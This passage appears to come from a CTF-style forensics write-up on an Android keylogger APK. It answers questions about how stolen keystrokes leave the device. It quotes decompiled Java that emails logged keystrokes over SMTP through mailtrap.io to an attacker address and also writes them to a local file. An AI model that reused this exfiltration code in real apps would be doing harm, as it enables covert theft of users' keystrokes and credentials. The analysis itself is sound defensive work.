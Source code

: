 You can see a lot of email account and I guess that attacker used smtp protocol for exfiltrate data

> **SMTP**

**Q5: What is the service platform name the attacker utilized to receive the data being exfiltrated?**

Open apk file with jadx, load into `Source code > com > example.keylogger > SendEmail`

```java
    public void openEmailClient(String toEmail, String subject, String body) {
        Properties props = new Properties();
        props.put("mail.smtp.auth", "true");
        props.put("mail.smtp.starttls.enable", "true");
        props.put("mail.smtp.host", "sandbox.smtp.mailtrap.io");
        props.put("mail.smtp.port", "465");
        Session session = Session.getInstance(props, new AnonymousClass1(this));
        Message message = new MimeMessage(session);     // Catch: MessagingException -> L27
        message.setFrom(new InternetAddress("b15c9729198acf"));     // Catch: MessagingException -> L27
        message.setRecipients(Message.RecipientType.TO, InternetAddress.parse(toEmail));     // Catch: MessagingException -> L27
        message.setSubject(subject);     // Catch: MessagingException -> L27
        message.setText(body);     // Catch: MessagingException -> L27
        Transport.send(message);     // Catch: MessagingException -> L27
        KeyLogs.Empty();     // Catch: MessagingException -> L27
        Log.d("Email", "sent");     // Catch: MessagingException -> L27
        return;
    L27:
        e = move-exception;
        e.printStackTrace();
        Log.d("EmailERR", e.getMessage());
    }

```
You can see smtp host used by attacker: sandbox.smtp.mailtrap.io

> mailtrap.io

**Q6: What email was used by the attacker when exfiltrating data?**

At BroadcastForAlarm class, you can see email of attacker:

```java
public class BroadcastForAlarm extends BroadcastReceiver {
    KeyLogs log = new KeyLogs();

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String msg = KeyLogs.GetLog();
        SendEmail SendEmail = new SendEmail(context, "APThreat@gmail.com", "KeyLogger", msg);
        SendEmail.Send();
        try {
            OutputStreamWriter outputStreamWriter = new OutputStreamWriter(context.openFileOutput("config.txt", 0));
            outputStreamWriter.write(msg);
            outputStreamWriter.close();
        } catch (IOException e10) {
            Log.e("Exception", "File write failed: " + e10.toString());
        }
    }
}
```
